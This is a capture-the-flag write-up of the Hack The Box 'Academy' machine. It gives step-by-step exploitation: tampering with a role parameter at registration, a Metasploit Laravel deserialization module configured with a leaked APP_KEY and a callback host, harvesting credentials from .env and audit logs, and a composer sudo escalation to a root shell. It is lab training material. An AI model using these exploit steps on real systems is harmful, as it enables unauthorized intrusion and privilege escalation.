







```
/htb_init.sh academy 10.129.241.217
[sudo] password for kali: 
NocentSec Box Scanner
Name: academy
IP: 10.129.241.217
[+]Downloading dependencies
[+]Starting Initial Portscan
[+]Enumerating

════════════════════════════════════╣ DIRECTORIES & FILES ON PORT 80 ╠════════════════════════════════════

/.hta                 (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/admin.php            (Status: 200) [Size: 2633]
/admin.php            (Status: 200) [Size: 2633]
/.hta.php             (Status: 403) [Size: 276]
/.hta.html            (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/config.php           (Status: 200) [Size: 0]
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/index.php            (Status: 200) [Size: 2117]
/index.php            (Status: 200) [Size: 2117]
/login.php            (Status: 200) [Size: 2627]
/.htaccess.html       (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/register.php         (Status: 200) [Size: 3003]
/.htpasswd.html       (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]

════════════════════════════════════╣ PORTS & SERVICES ╠════════════════════════════════════

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Hack The Box Academy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

════════════════════════════════════╣ SUBDOMAINS ON PORT 80 ╠════════════════════════════════════

  [-]No subdomains found.


done

```
scanned with our [box scanner](https://github.com/NocentSec)

## Foothold

Visiting the webpage we see a `LOGIN` and a `REGISTER` button. So let's register a new user `test:test`.
You won't get a confirmation just trust that it works. You can now log in with your new account.



No matter what you choose as a username it will always says `egre55` in the upper right corner.

Our initial scan also revealed an admin page `/admin` however our new user doesn't work there.
Let's go step back and intercept our new account registration with burpsuite:



Notice the `roleid=0`? Let's change that to a `1` and register a new user.

We can now log in to the admin page.



It says `Fix issue with dev-staging-01.academy.htb` so let's add that subdomain to our `/etc/hosts` file.



We got an error referencing the laravel.log.
After researching we found a metasploit module for that which gives us a meterpreter:

```
use unix/http/laravel_token_unserialize_exec
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set RHOSTS 10.129.241.217
set VHOST dev-staging-01.academy.htb
set LHOST 10.10.14.30
```
You can get the app key from the `dev-staging-01.academy.htb` site.

Now `run`.



For a better shell just spawn a tty with python:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## User

Exploring the machine we find a password in `/var/www/html/academy/.env`

```
www-data@academy:/var/www/html/academy$ cat .env
cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```

Let's try for password reuse on this system. `cat /etc/passwd` will give you the list of users:

```
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```

Trying these with ssh and the password `mySup3rP4s5w0rd!!` works for user `cry0l1t3`.

You can now read the `user.txt`.

## Root

Since we are in the (adm) group `uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)` we can read log files in `/var/logs`. Especially the audit logs are interesting for us but [linpeas]() is too fast and already found the juicy part in it:

```
╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>        
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
```

Alternatively we could've run `aureport --tty` for the same output.

Now let's log in as `mrb3n:mrb3n_Ac@d3my!` and run `sudo -l`.



Look like we can run `/usr/bin/composer` as with sudo rights. Let's just follow [GTFOBins](https://gtfobins.github.io/gtfobins/composer/) as always.

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

